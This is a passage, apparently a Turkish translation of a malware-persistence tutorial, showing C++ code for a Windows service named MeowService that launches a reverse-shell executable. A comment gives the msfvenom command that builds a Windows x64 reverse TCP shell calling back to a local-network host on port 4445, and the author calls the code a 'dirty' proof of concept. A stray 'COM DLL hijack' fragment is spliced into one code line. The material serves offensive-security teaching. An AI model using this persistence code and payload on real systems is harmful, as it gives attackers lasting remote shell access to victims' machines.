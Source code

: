 ```cpp
      break;COM DLL hijack
  }
  SetServiceStatus(hStatus,  &serviceStatus);
  return;
}
```

Yalnızca `SERVICE_CONTROL_STOP` ve `SERVICE_CONTROL_SHUTDOWN` isteklerini uyguladım ve destekledim. `SERVICE_CONTROL_CONTINUE`, `SERVICE_CONTROL_INTERROGATE`, `SERVICE_CONTROL_PAUSE`, `SERVICE_CONTROL_SHUTDOWN` ve diğerleri gibi istekleri de işleyebilirsiniz.     

Ayrıca, kötü amaçlı mantık içeren bir fonksiyon oluşturun:    

```cpp
// run process meow.exe - reverse shell
int RunMeow() {
  void * lb;
  BOOL rv;
  HANDLE th;

  // for example: 
  // msfvenom -p windows/x64/shell_reverse_tcp 
  // LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
  char cmd[] = "Z:\\2022-05-09-malware-pers-4\\meow.exe";
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, 
  NULL, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  return 0;
}

int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", 
    (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}
```

Daha önce yazdığım gibi, sadece ters kabuk sürecimizi (`meow.exe`) oluşturun:    

![service](./images/54/2022-05-10_18-34.png){width="80%"}    

Elbette, bu kod bir referans değil ve daha çok *"kirli"* bir Kavramsal Kanıt (Proof of Concept) niteliğindedir.    
